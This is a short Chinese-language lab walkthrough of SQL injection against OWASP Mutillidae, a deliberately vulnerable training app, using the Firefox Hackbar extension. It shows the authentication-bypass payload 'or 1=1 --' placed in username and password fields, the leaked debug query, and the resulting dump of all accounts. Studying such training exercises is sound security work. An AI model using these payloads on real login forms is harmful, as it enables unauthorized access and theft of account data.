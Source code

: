 ## SQL 注入

0x00、工具
- Firefox 扩展 Hackbar

0x01、首先打开hackbar,loadURL进去，然后执行一下，会自动的把post或者get数据的字段显示出来。
在浏览器里面打开：
```html
http://example.com/mutillidae/index.php?page=user-info.php
```
在页面上点击View Account Details按钮，提交一次
然后点击loadURL，就会加载新的url这个url是用get提交的，所以没有post字段

0x02、根据显示出来的数据，自行填充。
在
```html
&username='or 1=1 --'&password=
```
这样提交，返回的是错误信息，认证失败，坏的账号和密码，那随便给个密码试试。
```html
&username='or 1=1 --'&password='123456'
```
原来有debug信息。这个时候知道其实username没起作用
```text
Diagnotic Information   SELECT * FROM accounts WHERE username='admin' AND password=''123456''
```
最后修改一下

```sql
&username='or 1=1 --'&password='or 1=1 --'
```

执行一次 页面上就把所有账户信息给列出来了。。

btw： 这个是OWASP的教程，而且下面明确的告诉你用`'or 1=1 --'` 了。